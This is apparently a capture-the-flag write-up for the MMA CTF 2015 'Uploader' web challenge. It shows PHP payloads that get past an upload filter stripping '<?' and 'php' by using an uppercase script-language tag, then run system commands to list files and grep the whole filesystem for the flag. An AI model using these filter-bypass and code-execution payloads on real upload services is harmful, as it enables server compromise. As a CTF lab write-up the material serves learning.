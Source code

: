 [](ctf=mma-ctf-2015)
[](type=web)
[](tags=php,lfi,rce)
[](tools=)
[](techniques=)

# Uploader (web-100)

Website says 'You can upload any file!', and really lets us. But when uploading text files, it removes any '<?' or 'php' as mentioned in the problem. Obviously, this question is based on LFI+Remote Code Execution, we need to get our php running there somehow. First I tried uploading various variations of php hello world, like:

```php
<?php echo 'Hello world!';
```
```php
<? echo 'Hello world!';
```
```shell
#!/usr/bin/php -r
echo 'Hello world!';
```
Nothing seemed to work. Since '<?'s are being removed, I tried:
```php
<<?? echo 'Hello world!';
```
Still, no use.

Is it possible to run without <? tags?

After googling, we see from php manual page that, we can use these tags instead:
```php
<script language="php"> echo('Hello world!'); </script>
```
But after uploading, the word 'php' is removed, resulting in
```php
<script language=""> echo('Hello world!'); </script>
```
I was out of ideas. But after a long time, I realized that question only talks about removing 'php', but does it remove 'PHP' (uppercase) ? Let's find out:
```php
<script language="PHP"> echo('Hello world!'); </script>
```
Success! We got our php
 running, now we just have to look for the flag.

First, let me check a few variables
```php
<script language="PHP">
echo $flag;
print_r(get_defined_vars());
print_r(get_defined_constants());
</script>
```
Nope, nothing here. Let's look at some files:
```php
<script language="PHP">
system("ls");
</script>
```
Nothing useful here, let's do a full system search:
```php
<script language="PHP"> echo system("egrep -rnis 'MMA{' /"); </script>
```
Aaand we get our flag:

> MMA{you can run php from script tag}

